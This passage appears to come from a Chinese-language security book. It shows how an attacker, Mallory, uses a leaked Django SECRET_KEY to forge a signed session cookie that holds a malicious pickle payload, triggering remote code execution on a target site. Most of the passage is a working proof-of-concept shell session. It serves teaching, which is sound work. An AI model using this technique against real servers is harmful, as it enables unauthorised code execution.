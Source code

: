 ![](img/07653de439bc7c67c413099250523acb.png)

图 3。Mallory 使用泄露的 SECRET_KEY 执行远程代码执行攻击

下面的例子演示了 Mallory 如何从一个交互式 Django shell 执行她的远程代码执行攻击。在这次攻击中，马洛里通过调用 sys.exit 函数诱使 vulnerable.alice.com 自杀。Mallory 在 PickleSerializer 反序列化其代码时调用的方法中调用 sys.exit。Mallory 使用 Django 的签名模块来序列化和哈希恶意代码，就像基于 cookie 的会话引擎一样。最后，她使用请求包发送请求。对请求没有响应，接收者死亡(粗体)。

```
$ python manage.py shell
 >>> import sys
 >>> from django.contrib.sessions.serializers import PickleSerializer
 >>> from django.core import signing
 >>> import requests
 >>>
 >>> class MaliciousCode:
 ...     def __reduce__(self):    #A
 ...         return sys.exit, ()    #B
 ...
 >>> session_state = {'malicious_code': MaliciousCode(), }
 >>> sessionid = signing.dumps(    #C
 ...     session_state,    #C
 ...     salt='django.contrib.sessions.backends.signed_cookies',    #C
 ...     serializer=PickleSerializer)    #C
 >>>
 >>> session = requests.Session()
 >>> session.cookies['sessionid'] = sessionid
 **>>> session.get('https://vulnerable.alice.com/')**    #D
 **Starting new HTTPS connection (1): vulnerable.com**
```